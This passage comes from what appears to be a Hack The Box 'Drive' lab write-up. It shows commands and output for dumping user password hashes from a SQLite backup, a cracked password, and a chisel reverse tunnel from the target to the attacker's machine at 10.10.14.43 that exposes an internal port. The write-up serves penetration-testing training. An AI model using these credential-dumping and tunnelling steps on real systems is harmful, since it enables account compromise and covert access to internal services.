 # Inspecting sqlite3 Database

After inspecting the file system I discovered a number of database backups which were password protected. There was one database which `martin` could read. 

```
martin@drive:/var/www/backups$ file db.sqlite3 
db.sqlite3: SQLite 3.x database, last written using SQLite version 3031001
```

Dumped the hashes of all users within the database.

```
sqlite> select username,password from accounts_customuser;
jamesMason|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a
martinCruz|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f
tomHands|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004
crisDisel|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f
admin|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3
```

# Cracking Hashes

The below password cracked but it turned out to be useless. 

```
tomHands:sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e9e3004:john316
```

# Tunneling to Port 3000

The port scan discovered there was a filtered port on 3000. I used chisel to create a tunnel to inspect it further from a local source.

### Server

```
┌──(kali㉿kali)-[~/hackthebox/drive]
└─$ ./chisel server -p 9002 -reverse -v
2024/06/27 13:23:06 server: Reverse tunnelling enabled
2024/06/27 13:23:06 server: Fingerprint YiyvObvY/rs3bZG2Xrc7gUHe2vO0g/PpkKuSi87oucc=
2024/06/27 13:23:06 server: Listening on http://0.0.0.0:9002
```

### Client 

```
martin@drive:~$ ./chisel client 10.10.14.43:9002 R:3000:127.0.0.1:3000 &
[1] 1657
martin@drive:~$ 2024/06/27 17:24:29 client: Connecting to ws://10.10.14.43:9002
2024/06/27 17:24:29 client: Connected (Latency 29.522202ms)
```

